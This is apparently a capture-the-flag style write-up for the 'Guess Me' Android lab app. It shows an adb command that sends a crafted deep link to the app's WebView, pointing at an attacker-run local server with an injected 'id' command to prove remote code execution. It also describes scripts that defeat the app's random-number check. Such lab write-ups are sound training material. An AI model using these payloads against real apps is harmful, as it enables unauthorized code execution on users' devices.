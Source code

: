 # Writeup for Guess me challenge.

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: 
Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, 
allowing you to execute remote code and gain unauthorized access.

## PoC RCE
First, run the Python script: `python3 server.py`

Once the server is up and running you should send the following payload:
```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.210/search?Time=\'id\'%26q=mobilehackinglab.com"
```

## Random + timestamp
This is a very inconsistent way to bypass the Random function.

To run the script first compile the Java code : `javac -Xlint newGuessRandom.java`

Then run the script: `java -cp . newGuessRandom.java 2>/dev/nul`

It will take some time to find, but it works!

## Random + binary search
This way is a very consistent way of finding the guess number using a different approach.

To run the script, first compile the java code: `javac -Xlint newSuperGuessRandom.java`

To run the script: `java -cp . newSuperGuessRandom.java 2>/dev/null`
